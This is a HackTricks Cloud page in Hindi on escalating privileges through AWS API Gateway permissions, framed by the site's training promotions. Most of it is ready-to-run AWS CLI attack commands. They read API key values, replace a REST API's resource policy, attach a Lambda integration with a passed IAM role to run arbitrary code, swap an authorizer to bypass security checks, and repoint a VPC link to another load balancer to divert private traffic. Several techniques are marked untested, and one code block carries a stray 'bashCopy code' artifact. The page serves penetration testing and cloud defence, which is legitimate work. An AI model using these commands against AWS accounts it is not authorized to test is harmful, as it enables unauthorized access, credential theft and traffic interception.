 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के API कुंजी उत्पन्न कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway create-api-key
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिविलेज़ एस्केलेशन नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुँच मिल सकती है।

### `apigateway:GET`

इस अनुमति के साथ आप कॉन्फ़िगर की गई APIs के जनरेटेड API कुंजी प्राप्त कर सकते हैं (प्रति क्षेत्र)।
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**संभावित प्रभाव:** आप इस तकनीक से प्रिवेस्क नहीं कर सकते लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

इन अनुमतियों के साथ, एक API की संसाधन नीति को संशोधित करना संभव है ताकि आप इसे कॉल करने और API गेटवे के संभावित पहुंच का दुरुपयोग कर सकें (जैसे कि एक कमजोर लैम्ब्डा को सक्रिय करना)। 

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**संभावित प्रभाव:** आप आमतौर पर इस तकनीक के साथ सीधे प्रिवेस्क नहीं कर पाएंगे लेकिन आपको संवेदनशील जानकारी तक पहुंच मिल सकती है।

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास `apigateway:PutIntegration`, `apigateway:CreateDeployment`, और `iam:PassRole` की अनुमति है, **एक मौजूदा API Gateway REST API में एक नया इंटीग्रेशन जोड़ सकता है जिसमें एक IAM भूमिका संलग्न Lambda फ़ंक्शन है**। फिर हमलावर **Lambda फ़ंक्शन को मनमाने कोड को निष्पादित करने के लिए ट्रिगर कर सकता है और संभावित रूप से IAM भूमिका से संबंधित संसाधनों तक पहुंच प्राप्त कर सकता है**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: लैम्ब्डा फ़ंक्शन के IAM भूमिका से जुड़े संसाधनों तक पहुँच।

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
परीक्षण की आवश्यकता है
{% endhint %}

एक हमलावर जिसके पास `apigateway:UpdateAuthorizer` और `apigateway:CreateDeployment` की अनुमति है, वह **एक मौजूदा API गेटवे ऑथराइज़र को संशोधित** कर सकता है ताकि सुरक्षा जांचों को बायपास किया जा सके या API अनुरोध किए जाने पर मनमाने कोड को निष्पादित किया जा सके।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: सुरक्षा जांचों को बायपास करना, API संसाधनों तक अनधिकृत पहुंच।

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

एक हमलावर जिसके पास अनुमति `apigateway:UpdateVpcLink` है, **एक मौजूदा VPC लिंक को एक अलग नेटवर्क लोड बैलेंसर की ओर इंगित करने के लिए संशोधित कर सकता है, संभावित रूप से निजी API ट्रैफ़िक को अनधिकृत या दुर्भावनापूर्ण संसाधनों की ओर पुनर्निर्देशित कर सकता है**।
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**संभावित प्रभाव**: निजी API संसाधनों तक अनधिकृत पहुंच, API ट्रैफ़िक का अवरोध या विघटन।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
